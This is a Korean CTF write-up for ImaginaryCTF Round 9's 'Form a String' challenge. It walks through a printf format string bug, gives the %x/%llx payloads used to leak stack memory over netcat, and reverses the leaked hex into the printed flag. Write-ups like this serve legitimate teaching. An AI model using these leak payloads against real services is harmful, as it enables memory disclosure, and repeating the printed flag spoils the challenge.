







# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[Form_a_String.rar](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round9/file/Form_a_String.rar)

# **Write-Up**

압축을 해제하면 pwn이라는 바이너리가 있고, IDA를 사용하여 수도코드로 바꾸면 다음과 같다.



22번 줄에서 printf에 인자로 변수를 그대로 넣었는데, 여기서 FSB(Format String Bug)가 터진다.



IDA의 RemoteDebugger를 사용하여 while문으로 들어가서 fgets까지 실행한다.

```sh
=========================================================
[16] Accepting connection from 192.168.10.127...
Show us what you can do!
```

64bit 바이너리이기 때문에 %llx를 적당히 넣고 printf까지 진행해보면 "A"*8을 제외하고 10번째 부터 "41"*8이 시작된다.

```sh
AAAAAAAA,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
AAAAAAAA,5600f67e4491,0,0,7ffe8a23d7e0,0,7ffe8a23d968,100000000,0,5600f67e32a0,4141414141414141,6c252c786c6c252c
```

즉, while문에서 inpuf_buf의 시작점(rbp-90)이 10번째부터이다.



그러면 이제 flag의 시작점(rbp-50)까지의 차이(0x90 - 0x50)는 64byte임을 알 수 있다.



즉, 18번째 포맷부터는 flag값이 나온다. (9번 + 8번(input_buf크기인 64byte) + 1)

다만 input_buf가 받아들이는 크기는 64글자(=0x40)이므로 llx를 x로 바꾸고 쉼표도 최대한 줄여서 다음과 같이 입력한다. (%x는 17개)

```cmd
C:\nc\>nc64.exe 192.168.10.211 3000
Show us what you can do!
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x,%llx,%llx,%llx,%llx,%llx
f67e44910f67e44cc8a23d7e008a23d96800f67e32a078257825782578257825782578257825252c7825786c6c256c252c78a786c6c,7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e
```

* binary를 소켓으로 바인딩 : * socat TCP-LISTEN:3000,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn"

flag값은 7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e로 cyberchef에서 hex디코딩을 통해 값을 확인해 본다.
> [CyberChef](https://gchq.github.io/CyberChef)



뒤가 깨져서 나오는데 마지막 값의 자리수가 모자라서이다. a는 엔터 값인 0a로 바꿔서 값을 확인한다.



64bit이므로 8byte씩 뒤에서 부터 출력되기 때문에(stack에서 값을 가져오기 때문에) 8글자씩 잘라 거꾸로 뒤집으면 flag를 획득할 수 있다.

```python
[In]
print(''.join(reversed('r0f{ftci')),end='')
print(''.join(reversed('1r7s_t4m')),end='')
print(''.join(reversed('_3r4_sgn')),end='')
print(''.join(reversed('irp_h71w')),end='')
print(''.join(reversed('\n}ftn')))

[Out]
ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}
```

# **FLAG**

**ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}**